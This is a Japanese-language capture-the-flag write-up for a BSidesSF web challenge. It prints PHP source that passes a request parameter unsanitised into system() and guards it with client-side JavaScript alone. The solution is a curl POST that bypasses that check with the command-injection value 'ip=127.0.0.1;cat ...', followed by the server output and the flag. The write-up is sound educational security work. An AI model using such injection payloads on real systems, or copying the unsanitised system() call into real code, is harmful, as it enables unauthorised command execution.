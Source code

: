 # detector

Try out our new dragon-tracking tool! But be careful with special characters - they cause weird problems so we added JavaScript to block them!

Flag Path: /app/dragon-detector-ai


https://detector-6ed78885.challenges.bsidessf.net/

アクセスすると以下のような画面

![](image.png)

与えられたindex.phpとdetect-dragon.phpを見る

index.php
```
<script>
function validateIP() {
    const ipFormat = /^^(25[0-5]|2[0-4][0-9]|1[0-9]{2}|[1-9]?[0-9])\.(25[0-5]|2[0-4][0-9]|1[0-9]{2}|[1-9]?[0-9])\.(25[0-5]|2[0-4][0-9]|1[0-9]{2}|[1-9]?[0-9])\.(25[0-5]|2[0-4][0-9]|1[0-9]{2}|[1-9]?[0-9])$$/;
    const ip = document.getElementById('dragon-ip').value;
    
    if(!ip.match(ipFormat)) {
        alert('That IP smells of goblins! Try a real address!');
        return false;
    }
    document.getElementById('dragon-form').submit();
    return true;
}
</script>

<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Dragon Detector</title>
  <link rel="stylesheet" href="style.css">
</head>
<body>
  <div class="container">
    <h1>🛡️ Dragon Detector 🐉</h1>
    <p class="subtitle">Enter an IP address to see if a dragon lives there!</p>
    <p>This uses state of the art copyrighted AI, and it's worth A LOT of money!!</p>
    <form id="dragon-form" action="detect-dragon.php" method="post" onsubmit="return validateIP();">
      <input type="text" id="dragon-ip" name="ip" placeholder="Enter IP address..." required>
      <button type="submit">Detect Dragon</button>
    </form>
    <div class="dragon-image">
      <img src="dragon.gif" alt="A friendly dragon">
    </div>
  </div>
</body>
</html>
```
- 普通にフォームから特殊文字入りのip=127.0.0.1;cat /flagとか送れない


detect-dragon.php
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Dragon Detector</title>
    <link rel="stylesheet" href="style.css">
</head>
<body>
    <div class="container">
<?php
  $ip = $_REQUEST['ip'];

  echo "<h1>";
  system("bash /app/dragon-detector-ai $ip");
  echo "</h1>";

  echo '<br><a href="/">Check another IP</a>';
?>
    </div>
</body>
</html>
```

- ユーザー入力が直接コマンドとして実行される
- system() なので 標準出力がそのままブラウザに返る
- バリデーションもサニタイズも一切ナシ

## solution

JSバイパスしてPOST送る

```
$ curl -k -X POST https://detector-6ed78885.challenges.bsidessf.net/detect-dragon.php \
  -d "ip=127.0.0.1;cat /app/dragon-detector-ai"
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Dragon Detector</title>
    <link rel="stylesheet" href="style.css">
</head>
<body>
    <div class="container">
<h1>No dragons @ 127.0.0.1, just internet hamsters. 🐹
#!/bin/sh

# FLAG: CTF{tharr-be-draggggons}

# This doesn't actually do anything..... shhhh, they paid us a lot for us to
# call this AI
random_number=$(( $RANDOM % 100 ))

# Check if the random number is less than 10 (10% chance)
if [ $random_number -lt 10 ]; then
    echo "DRAGON DETECTED @ $1! 🐉"
else
    echo "No dragons @ $1, just internet hamsters. 🐹"
fi
</h1><br><a href="/">Check another IP</a>    </div>
</body>
</html>
```
## flag

`CTF{tharr-be-draggggons}`
